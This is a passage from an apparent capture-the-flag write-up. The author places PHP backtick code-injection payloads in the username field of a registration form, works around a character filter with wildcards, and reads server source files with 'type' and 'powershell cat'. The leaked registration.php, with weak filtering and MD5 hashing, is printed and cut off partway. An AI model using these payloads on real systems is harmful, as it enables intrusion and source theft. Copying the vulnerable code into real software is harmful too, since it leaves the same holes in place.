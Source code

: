 
I then tried to get the `registration.php` source, but it seems the `.` breaks
things when I tried:

    
    
    a<?php echo `type \\inetpub\\wwwroot\\user\\registration.php` ?>b
    

But, I know that `?` isn’t blocked, and that’s a single character wild card.
So I register as:

    
    
    a<?php echo `type \\inetpub\\wwwroot\\user\\registration?php` ?>b
    

Something about `?` wildcards are funky. I couldn’t get that to work. So
eventually I registered:

    
    
    a<?php echo `powershell cat \\inetpub\\wwwroot\\user\\registration*php` ?>b
    

I got the source for both files. Here’s `registration.php`:

    
    
    <!DOCTYPE html>
    <html>
    <meta charset="utf-8">
    
    </head>
    <body>
    <?php
    require('db.php');                                                                                                                                                                                                                    
    // If form submitted, insert values into the database.                                                                                                                                                                                
    if (isset($_REQUEST['username'])){                                                                                                                                                                                                    
            // removes backslashes                           
            $username = stripslashes($_REQUEST['username']);                                                           
            $username = str_replace('-', '', $username);                                                               
            $username = str_replace('$', '', $username);                                                               
            $username = str_replace('[', '', $username);                                                               
            $username = str_replace('(', '', $username);                                                               
            $username = str_replace('_', '', $username);                                                               
            $username = str_replace('.', '', $username);                                                               
            $username = str_replace(';', '', $username);                                                               
            $username = str_replace('&', '', $username);                                                               
            $username = str_replace('"', '', $username);                                                               
            //escapes special characters in a string         
            $username = mysqli_real_escape_string($con,$username);                                                     
            $email = stripslashes($_REQUEST['email']);       
            $email = mysqli_real_escape_string($con,$email);                                                           
            $password = stripslashes($_REQUEST['password']);                                                           
            $password = mysqli_real_escape_string($con,$password);                                                     
            $trn_date = date("Y-m-d H:i:s");                 
            $query = "INSERT into `users` (username, password, email, trn_date)                                        
    VALUES ('$username', '".md5($password)."', '$email', '$trn_date')";                                                
            $result = mysqli_query($con,$query);             
            if($result){                                     
    